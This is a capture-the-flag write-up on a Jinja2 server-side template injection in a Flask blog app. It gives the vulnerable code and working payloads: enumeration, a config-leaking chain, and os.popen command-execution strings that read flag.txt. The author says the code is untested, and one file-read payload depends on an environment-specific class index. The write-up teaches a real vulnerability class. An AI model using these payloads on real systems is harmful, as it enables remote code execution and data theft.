 # Why Hello There - SSTI Vulnerability
**Description**: 
- *Hints*: Always be sure to sanitize user input!... Even ones that are not always visually obvious at first glance.

## Introduction

Server-Side Template Injection (SSTI) is a vulnerability that allows an attacker to inject malicious templates into a web application, potentially leading to Remote Code Execution (RCE) or information disclosure. SSTI vulnerabilities arise when user input is dynamically inserted into templates and then rendered by the server-side template engine without proper sanitization or validation.

In this challenge, we explore an SSTI vulnerability within a Flask web application. Flask is a popular Python web framework that includes support for Jinja2 templating. Jinja2 is powerful but can be susceptible to SSTI if not properly secured.

## Challenge Overview

The provided source code defines a simple Flask application serving a blog-like website. The application uses the `render_template_string` function from Flask, which dynamically renders templates based on user input. This function is used to customize a greeting message with the visitor's name, which is retrieved from URL parameters.

### Vulnerability Analysis

The critical line in the application is where `render_template_string` is used:

```python
name = request.args.get('name', 'CTF Player')
return render_template_string(f'''
...
<p>Hello {name}! This is a place where I share my thoughts and experiences.</p>
...
''')
```

The `name` parameter from the URL is inserted directly into the template. Since there is no sanitization of the `name` parameter, an attacker can exploit this by injecting a template syntax that can be executed by the server.

## Detecting the vulnerability
- This vulnerability can be detected by providing the following payload:
```
https://grizzhacks-why-hello-there.chals.io/?name={{7*7}}
```
![image](https://github.com/supaaasuge/GrizzCTF2024-Official/assets/158092262/f756f772-3327-449f-8171-f09c50ba57b8)
- As you can see, the name parameter changes to `49` within the template. This can be used to execute arbitrary code on the page. Further processable commands can be enumerated using the following:

##### Introspection

You may conduct introspection with the locals object using dir and help to see everything that is available to the template context. You can also use introspection to reach every other application variable. [This](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py) script written by the DoubleSigma team will traverse over child attributes of request recursively. For example, if you need to reach the blacklisted config var you may access it anyway via:
```
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```
##### Extracting classes from the application
```
{{config.items}}
{{''.class.mro()[1].subclasses()}}
```

### Exploiting SSTI in Flask

To exploit this vulnerability, an attacker can craft a payload that the Jinja2 template engine will execute. The goal is to read the contents of `flag.txt`.

A common approach to achieve this is to leverage Jinja2's ability to access Python's built-in attributes and functions through the template. An attacker can use this capability to execute arbitrary Python code.

#### Payload to Read `flag.txt`

The payload to exploit this SSTI vulnerability and read the contents of `flag.txt` on a Windows machine might look something like this:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read() }}
```

This payload works by accessing Python's built-in attributes to open and read a file. The steps are as follows:

1. `''.__class__.__mro__[2]` accesses the `object` base class.
2. `__subclasses__()` lists all subclasses of `object`, where one of them is typically the `file` class or a class that can be used to open files.
3. The index `[40]` (which might need adjustment based on the Python environment) is assumed to be the class that can open files.
4. `('flag.txt').read()` attempts to open `flag.txt` and read its contents.

### Conclusion

This challenge demonstrates the critical importance of sanitizing and validating all user inputs, especially when those inputs are used within template engines like Jinja2 in Flask applications. SSTI vulnerabilities can lead to significant security risks, including unauthorized access to sensitive data and system command execution. Always ensure user inputs are handled securely to prevent such vulnerabilities.
note: The code above is not tested, but the payload is something along those lines.

I.e.,
```
https://MACHINE_IP:10000/?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
OR

```
http://MACHINE_IP:10000/?name={{config.__class__.__init__.__globals__[%27__builtins__%27][%27__import__%27](%27os%27).popen(%27type%20flag.txt%27).read()}}
```
![alt text](image.png)
